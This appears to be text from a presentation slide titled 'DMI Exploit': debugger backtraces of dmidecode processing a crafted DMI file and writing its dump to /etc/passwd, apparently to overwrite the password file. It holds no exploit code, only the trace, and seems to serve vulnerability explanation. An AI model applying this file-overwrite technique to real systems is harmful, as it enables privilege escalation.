

# DMI Exploit
#0  write_dump (base=0x0, len=0x0, data=, dumpfile= "/etc/passwd", add=0x1) at util.c:254
#1  smbios_decode (buf= "_SM_", devmem= "/tmp/crafted.dmi", flags=0x0) at dmidecode.c:4900
#2  main (argc=, argv=) at dmidecode.c:5107
#0  write_dump (base=0x20, len=, data=, dumpfile= "/etc/passwd", add=0x0) at util.c:254
#1  dmi_table_dump (buf= "\nroot:", len=) at dmidecode.c:4607
#2  dmi_table (base=0x0, len=, num=0x1, ver=0x20100) at dmidecode.c:4778
#3  smbios_decode (buf= "_SM_", devmem= "/tmp/crafted.dmi", flags=0x1) at dmidecode.c:4887
#4  main (argc=, argv=) at dmidecode.c:5107